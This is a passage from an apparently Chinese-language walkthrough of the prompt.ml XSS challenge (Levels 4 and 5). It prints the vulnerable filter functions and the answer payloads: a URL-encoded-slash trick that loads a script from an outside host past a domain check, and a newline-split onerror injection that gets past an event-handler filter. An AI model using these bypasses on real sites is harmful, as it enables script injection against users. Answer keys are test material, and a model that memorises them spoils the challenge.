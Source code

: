 * * *

这个题目是利用 url 的特性绕过，浏览器支持这样的 url：http://user:password@attacker.com。但是`http://user:password/@attacker.com`是不允许的。由于这里的正则特性和`decodeURIComponent`函数，所以可以使用`%2f`绕过，如下：`http://prompt.ml%2f@attacker.com`。所以域名越短，答案就越短。

### 代码

```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}

```

### 答案

```
//prompt.ml%2f@ᄒ.ws/✌ 
```

## Level 5

* * *

过滤了`>`，过滤了`onXXX=`，过滤了`focus`，所以不能使用`autofocus`。但是可以使用 js 的换行`\n`绕过`onXXX=`，IE 下依然可以使用`onresize`

### 代码

```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}

```

答案： 一种答案是，可以提交设置`type`为`image`，后面的`type`不能覆盖前面的设置。

```
"type=image src onerror
="prompt(1)

```
